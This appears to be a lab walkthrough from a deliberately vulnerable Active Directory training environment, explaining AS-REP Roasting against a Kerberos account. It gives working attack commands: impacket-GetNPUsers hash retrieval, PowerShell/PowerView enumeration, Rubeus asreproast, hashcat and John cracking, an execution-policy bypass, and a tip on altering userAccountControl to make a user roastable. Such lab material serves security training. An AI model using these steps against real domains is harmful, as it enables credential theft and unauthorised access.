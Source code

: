 # AS-REP Roasting

## Description

AS-REP Roasting is taking place during the initial authentication procedure within Kerberos. It's abusing the fact, that for accounts with the option "Do not require Kerberos preauthentication" set, there is no need to send the (normally required) encrypted timestamp (with the users password hash) at the very beginning. Thus everyone on the network who knows the name of an affected account may ask the KDC (Domain Controller) to authenticate as that user and in return fetch a AS-REP response which partly is encrypted with the AS-REP roastable account´s password hash. Once obtained, an attacker can try to offline crack the hash and fetch the cleartext credentials.


## Context 

To perform this attack, the LAB has configured the account brandon.stark with the account option "Do Not Require Pre-authentication" enabled. Hence, this account is the only vulnerable to AS-REP Roasting.


## Exploiting the vulnerability

This attack can be performed without a computer authenticated on the domain and with or without any domain credentials, however you must be connected to the Domain Controller network.

* Without domain credentials and without access to a domain computer :
On Kali linux, impacket and its scripts collection are already installed by default if not, you can find it [here](https://github.com/SecureAuthCorp/impacket). 
Before using impacket-GetNPUsers to retrieve the hash, you need to create a list of the domain users that you previously found (with enum4linux for example). Then, enter the following command : 

	    impacket-GetNPUsers.py -usersfile <username file> -format <hashcat or john> -outputfile <output file> -no-pass -dc-ip <DC IP address> <domain>/


* With domain credentials :
Open a Powershell window, it can be directly on a domain computer on remotely with PsExec or WinRM. To identify the as-rep roastable accounts you can use one of these commands :
	* With the Active Directory Module :  
	  
            Import-Module ActiveDirectory
            Get-ADuser -filter * -properties DoesNotRequirePreAuth | where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name 
	* With [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)* : 

            Import-Module PowerView.ps1 
            Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
            
    * With the as-rep roastable account, the impacket command will be :

	        impacket-GetNPUsers.py -format <hashcat or john> -outputfile <output file> -dc-ip <DC IP address> -no-pass <domain>/<as-rep roastable username>
    
	* With Rubeus, it will find automatically the right account and perform the AS-REP Roasting attack :

            ./Rubeus.exe asreproast /format:<hashcat or john>
    
        You should obtain this result :
        
        ![asrep.png](../img/asrep.png)

        
The hash of the AS-REP response look like this :

    $krb5asrep$23$brandon.stark@SEVENKINGDOMS.LOCAL:<FIRST_16_BYTES>$<REMAINING_BYTES>

You can know use hashcat to decrypt it :

	hashcat -m 18200 <hash file> <wordlist>

Or use JohnTheRipper :

	john <hash file> -wordlist=<wordlist>

The password of brandon.stark is included in the rockyou.txt wordlist, so you will easily find it by choosing it as the wordlist.


*Type this command to bypass the script execution policy if needed : 
    
    Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass


## Next steps

As you don't need credentials or to comprise a lab computer to perform this attack but only a list of the domain usernames, it can be the step following the enumeration step.
If you have GenericWrite/GenericAll rights over a target user, you can maliciously modify their userAccountControl to not require preauth, use ASREPRoast, and then try bruteforce their AS-REP hash.

